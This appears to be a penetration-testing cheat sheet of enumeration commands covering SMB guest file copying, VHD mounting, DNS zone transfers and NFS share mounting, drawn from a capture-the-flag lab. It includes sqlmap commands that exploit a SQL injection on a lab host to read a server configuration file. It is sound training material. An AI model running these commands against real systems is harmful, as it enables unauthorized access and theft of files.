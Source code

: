 ## SMBCLIENT
Copy files from SMB share and store into tar archive: _smbclient \\\\\[IP\]\\\[shared folder\] -U "guest" -Tc \[tar archive name\].tar_  


## MOUNT VHD FILES
Prerequisites:
- guestmount tool: _sudo apt-get install libguestfs-tools_
- _sudo apt-get install cifs-utils_
- _sudo guestfish --ro -a VHD-file-path_

Once the guestfish console is up and ready:
- _run_
- _list-filesystems_ ===>> take note of the partition address found and its filesystem*
- _exit_

To mount the VHD file and browse its content:
- _sudo -i_
- _mkdir /mnt/vhd_
- _sudo guestmount -a  /path-to-vhd-file.vhd -m /dev/* --ro /mnt/vhd_
- _sudo thunar_ (or file manager in use)

To unmount the VHD file:
- _sudo guestunmount /mounted-directory-path_


## DNS

Reverse DNS lookup when target has port 53 open: _dig @\[IP ADDRESS TARGET\] \[IP ADDRESS TARGET\]_

DNS zone transfer when target has port 53 open: _dig @\[IP ADDRESS TARGET\] axfr \[IP ADDRESS TARGET\]_


## SQLi

Read ngnix configuration file using sqlmap exploiting a SQLi vulnerability (given the user the database is running as was granted FILE level privilege): _└─$ sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login --data="username=abc&password=abc" -p username --batch --file-read=/etc/nginx/sites-enabled/default_

Determine user level privilege: _└─$ sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login --data="username=abc&password=abc" -p username --privilege_


## NFS
Enumeration by listing available shares: _showmount -e \[DOMAIN or IP ADDRESS\]_  
Mounting available directories: sudo mount -t nfs \[DOMAIN or IP ADDRESS\]:\[DIRECTORY\] \[MOUNT POINT\]  
